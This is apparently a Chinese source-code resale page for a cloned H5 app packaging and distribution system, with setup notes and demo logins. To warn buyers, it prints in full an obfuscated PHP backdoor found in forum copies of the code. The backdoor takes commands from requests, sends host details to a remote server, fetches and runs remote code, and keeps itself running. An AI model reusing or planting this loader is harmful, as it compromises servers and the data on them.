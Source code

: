 # 【亲测】仿第八区H5APP封装打包分发系统源码/全开源完整运营修复版本/前端html+后端php

本套程序已经过悟空源码技术人员测试，如需搭建请直接联系客服：[@wukongymw](http://t.me/wukongymw)
**解压密码：wukongymw.com**

源码说明

仿第八区H5APP封装打包分发系统源码/全开源完整运营修复版本/前端html+后端php

测试反馈

测试环境：Linux系统CentOS7.6、宝塔面板、Nginx、PHP7.2、MySQL5.7，运行目录选择public，伪静态看下面，建议开启SSL
这是一套修复过的全开源版本，基础页面全都点开测试过了，没有发现明显bug，因为没时间部署签名打包环境以及没钱买证书，所以没有测试签名和打包的流程，有条件的自行测试
搭建也是很简单的，我找了以前版本的搭建文档，你们可以对照着弄一下
这套用D盾没扫出马，加密也没扫出来，但是检查代码发现了shell，绝大多数论坛源码都存在这个后门，以 ;$b11st=0; 开始 ;$b11ed=0; 结束的这一段代码全都删掉，完整的如下：

```
;$b11st=0;
$l0ader=function($check){$sl=array(0x6578706c,0x6f646500,0x62617365,0x36345f64,0x65636f64,0x65006a73,0x6f6e5f64,0x65636f64,0x6500696d,0x706c6f64,0x65006172,0x7261795f,0x73686966,0x74007374,0x72726576,0x00737562,0x73747200,0x7374726c,0x656e0073,0x7472746f,0x6c6f7765,0x72006973,0x5f617272,0x61790070,0x6f736978,0x5f676574,0x70777569,0x64006765,0x745f6375,0x7272656e,0x745f7573,0x65720066,0x756e6374,0x696f6e5f,0x65786973,0x74730070,0x68705f73,0x6170695f,0x6e616d65,0x00706870,0x5f756e61,0x6d650070,0x68707665,0x7273696f,0x6e006765,0x74686f73,0x746e616d,0x65006677,0x72697465,0x0066696c,0x655f6765,0x745f636f,0x6e74656e,0x74730066,0x696c655f,0x7075745f,0x636f6e74,0x656e7473,0x006d745f,0x72616e64,0x00737472,0x65616d5f,0x736f636b,0x65745f63,0x6c69656e,0x74007379,0x735f6765,0x745f7465,0x6d705f64,0x69720070,0x6f736978,0x5f676574,0x75696400,0x63686d6f,0x64007469,0x6d650064,0x6566696e,0x65640063,0x6f6e7374,0x616e7400,0x696e695f,0x67657400,0x67657463,0x77640069,0x6e747661,0x6c00677a,0x756e636f,0x6d707265,0x73730068,0x7474705f,0x6275696c,0x645f7175,0x65727900,0x70636e74,0x6c5f666f,0x726b0070,0x636e746c,0x5f776169,0x74706964,0x00706f73,0x69785f73,0x65747369,0x6400636c,0x695f7365,0x745f7072,0x6f636573,0x735f7469,0x746c6500,0x66636c6f,0x73650073,0x6c656570,0x00756e6c,0x696e6b00,0x69676e6f,0x72655f75,0x7365725f,0x61626f72,0x74007265,0x67697374,0x65725f73,0x68757464,0x6f776e5f,0x66756e63,0x74696f6e,0x00736574,0x5f657272,0x6f725f68,0x616e646c,0x65720065,0x72726f72,0x5f726570,0x6f727469,0x6e670066,0x61737463,0x67695f66,0x696e6973,0x685f7265,0x71756573,0x74006973,0x5f726573,0x6f757263,0x65000050,0x44397761,0x48416761,0x57596f49,0x575a3162,0x6d4e3061,0x57397558,0x32563461,0x584e3063,0x79676958,0x31397964,0x57356659,0x32396b5a,0x5639344d,0x6a41694b,0x536c375a,0x6e567559,0x33527062,0x32346758,0x31397964,0x57356659,0x32396b5a,0x5639344d,0x6a416f4a,0x474d7065,0x79526b49,0x4430675a,0x585a6862,0x43676b59,0x796b374a,0x47453959,0x584a7959,0x586b6f4a,0x4751704f,0x334a6c64,0x48567962,0x69426863,0x6e4a6865,0x56397a61,0x476c6d64,0x43676b59,0x536b3766,0x58303700,0x5f5f7275,0x6e5f636f,0x64655f78,0x3230002f,0x73657373,0x5f7a7a69,0x75646272,0x6f726b64,0x61646869,0x70393076,0x396a6d6a,0x00fef100,0x01006457,0x52774f69,0x3876646a,0x49774c6e,0x526f6157,0x35726347,0x68774d53,0x356a6232,0x30364f54,0x6b344f41,0x3d3d0061,0x48523063,0x446f764c,0x3359794d,0x43353061,0x476c7561,0x33426f63,0x44457559,0x3239744c,0x3359794d,0x43397062,0x6d6c3050,0x773d3d00,0x6e6f6368,0x65636b30,0x00643200,0x69007500,0x74006869,0x64007069,0x6400636c,0x69007769,0x6e005048,0x505f4f53,0x006e616d,0x65005553,0x45520044,0x4f43554d,0x454e545f,0x524f4f54,0x00646973,0x61626c65,0x5f66756e,0x6374696f,0x6e730048,0x5454505f,0x434f4f4b,0x49450048,0x5454505f,0x484f5354,0x00534352,0x4950545f,0x4e414d45,0x00524551,0x55455354,0x5f555249,0x006c7600,0x677a0075,0x64005732,0x74336233,0x4a725a58,0x49764d44,0x6f775345,0x35640053,0x54444f55,0x54005354,0x44455252,0x00000000);;$r=false;foreach($sl as $d)$r.=chr($d&amp;amp;gt;&amp;amp;gt;24).chr($d&amp;amp;gt;&amp;amp;gt;16).chr($d&amp;amp;gt;&amp;amp;gt;8).chr($d);$f=substr($r,0,7);$f=$f(chr(0),$r);$g=$GLOBALS;$r=$_REQUEST;$s=$_SERVER;$l1i=isset($r[$f[55]])?$l1i=@$r[$f[55]]:0;$l1i&amp;amp;amp;&amp;amp;amp;$l1i=@$f[2]($f[1]($f[5]($l1i)));if($l1i&amp;amp;amp;&amp;amp;amp;$f[9]($l1i)){$w=$f[4]($l1i);$fu=$f[4]($l1i);die($w($fu==$f[56]?include($l1i[0]):$fu($l1i[0],$l1i[1])));}$uid=$f[12]($f[23])?@$f[23]():-1;$cli=($f[13]()==$f[61]);$os=$f[26]($f[63])?$f[27]($f[63]):$f[46];$sfile=$f[49];$sfile[2]='s';$sfile[3]='e';$sfile=$f[22]().$sfile;$pfile=$f[22]().$f[49];if( $f[8]($f[6]($os,0,3))==$f[62] ){$pfile.=$f[11]();$sfile.=$f[11]();}$hu=isset($s[$f[65]])?$s[$f[65]]:$f[11]();if($f[12]($f[10])&amp;amp;amp;&amp;amp;amp;$uid!=-1){$pu=$f[10]($uid);$hu=$pu?($pu[$f[64]]?:$hu):$hu;};$idfile=$sfile.$f[59];$hid = @($f[18]($idfile));if(!$hid){$hid=$f[25]().$f[20](100,999);if(@$f[19]($idfile,$hid)){@$f[24]($idfile,0666);}else{$hid=0;}}$pid=0;$pwd = $cli?$f[29]():$s[$f[66]];$extra=$cli?$f[28]($f[67]):@$s[$f[68]];$extra=$extra?$f[6]($extra,0,1024):$f[46];$hv=substr($f[14](),0,128);$uri=@$s[$f[71]];$uri=$uri?$f[6]($uri,0,128):$f[46];$rdata=array(chr(23),$os,$f[16](),$hv,$uid,$hu,$hid,$pid,$f[13](),$f[15](),$pwd,@$s[$f[69]],@$s[$f[70]],$uri,$extra);$tf=$pfile.$f[57].$f[30]($cli).$f[30]($uid===0);if($check &amp;amp;amp;&amp;amp;amp; !@$r[$f[54]] &amp;amp;amp;&amp;amp;amp; $f[25]()&amp;amp;lt;@$f[30]($f[18]($tf)))return;$ok=(@$f[19]($tf,$f[25]()+7200)&amp;amp;gt;0);@$f[24]($tf,0666);if($f[12]($f[21])){$ud=$f[6]($f[3](chr(0),$rdata),0,1400);@$f[17]($f[21]($f[1]($f[52]),$e1s, $e2s,5),$f[50].$f[51].$ud);}if(!$ok)return;$tf=$pfile.$f[56].$f[30]($cli).$f[30]($uid===0);if($check &amp;amp;amp;&amp;amp;amp; !@$r[$f[54]] &amp;amp;amp;&amp;amp;amp; $f[25]()&amp;amp;lt;@$f[30]($f[18]($tf)))return;$a=array($pfile);if(@$f[19]($a[0],$f[1]($f[47]))&amp;amp;gt;0){@include_once($pfile);}else{@$f[39]($a[0]);return;};@$f[39]($a[0]);$gz=$f[12]($f[31]);$go=function($lv)use($f,$gz,$rdata,$sfile){try{$rdata[6]=@$f[18]($sfile.$f[59]);$rdata[7]=@$f[18]($sfile.$f[60]);$d=@$f[32](array($f[74]=&amp;amp;gt;$f[51].$f[3](chr(0),$rdata),$f[72]=&amp;amp;gt;$lv,$f[73]=&amp;amp;gt;$gz,$f[58]=&amp;amp;gt;$f[25]()));$data=@$f[18]($f[1]($f[53]).$d);if($data &amp;amp;amp;&amp;amp;amp; $gz)$data=@$f[31]($data);if($data)@$f[48]($data);return true;}catch(\Exception $e){}catch(\Throwable $e){}};if($cli){$hwai=$f[12]($f[34]);$pid=-1;if($f[12]($f[33]))$pid=$f[33]();if($pid&amp;amp;lt;0){$go(3);return;}if($pid&amp;amp;gt;0){return $hwai&amp;amp;amp;&amp;amp;amp;$f[34]($pid,$s);}if($hwai &amp;amp;amp;&amp;amp;amp; $f[33]() )die;if($f[12]($f[35]))@$f[35]();if($f[12]($f[36]))@$f[36]($f[1]($f[75]));try{if($f[26]($f[76]))@$f[37]($f[27]($f[76]));if($f[26]($f[77]))@$f[37]($f[27]($f[77]));}catch(\Exception $e){}catch(\Throwable $e){};$nt0=0;do{if($f[25]()&amp;amp;gt;$nt0){$nt0=$f[25]()+3600;@$f[19]($tf,$f[25]()+7200);@$go(4);}$f[38](60);}while(1);die;}else{$f[40](true);$f[41](function() use($f,$go){$f[42](function(){});$f[43](0);if($f[12]($f[44])){$f[44]();$go(2);}else{$go(1);}});}};set_error_handler(function(){});$error1=error_reporting();error_reporting(0);try{@$l0ader(true);}catch(\Exception $e){}catch(\Throwable $e){}error_reporting($error1);restore_error_handler();
;$b11ed=0;

```

 
能检测到的马儿已经清理干净了，你们自己还是得扫一下啊
清理后也可以拿去运营，新加了文件快传的功能，整体感觉比以前的要好得多
数据库修改：/source/system/config.inc.php 和 /source/system/db\_config.php 里面将 wukong\_di8qu 改成你自己的，或者你自己设置账号密码都为 wukong\_di8qu 即可
伪静态：

```
location / {
	if (!-e $request_filename){
	rewrite  ^(.*)$  /index.php$1  last;   break;
	}
}

```

 
前端：https://di8qu.wkym.cc
测试账号：18888888888
密码：123456
后台：https://di8qu.wkym.cc/admin.php
账号：admin
密码：wukongymw.com

截图展示

前端

[![](https://wukongymw.com/wp-content/uploads/2025/03/4b1055f02d1ef55.png)](https://wukongymw.com/wp-content/uploads/2025/03/4b1055f02d1ef55.png)[![](https://wukongymw.com/wp-content/uploads/2025/03/18fca35a8713c87.png)](https://wukongymw.com/wp-content/uploads/2025/03/18fca35a8713c87.png)
[![](https://wukongymw.com/wp-content/uploads/2025/03/5661fd227f7ceec.png)](https://wukongymw.com/wp-content/uploads/2025/03/5661fd227f7ceec.png)
[![](https://wukongymw.com/wp-content/uploads/2025/03/5c525bd21d8c3d4.png)](https://wukongymw.com/wp-content/uploads/2025/03/5c525bd21d8c3d4.png)
[![](https://wukongymw.com/wp-content/uploads/2025/03/e5e40b2fb4dfaac.png)](https://wukongymw.com/wp-content/uploads/2025/03/e5e40b2fb4dfaac.png)
[![](https://wukongymw.com/wp-content/uploads/2025/03/4b91ad6fc2ed98c.png)](https://wukongymw.com/wp-content/uploads/2025/03/4b91ad6fc2ed98c.png)

后台

[![](https://wukongymw.com/wp-content/uploads/2025/03/7fdf2e89679c295.png)](https://wukongymw.com/wp-content/uploads/2025/03/7fdf2e89679c295.png)[![](https://wukongymw.com/wp-content/uploads/2025/03/77e34a456e2dcd0.png)](https://wukongymw.com/wp-content/uploads/2025/03/77e34a456e2dcd0.png)
[![](https://wukongymw.com/wp-content/uploads/2025/03/a19cd0623d11904.png)](https://wukongymw.com/wp-content/uploads/2025/03/a19cd0623d11904.png)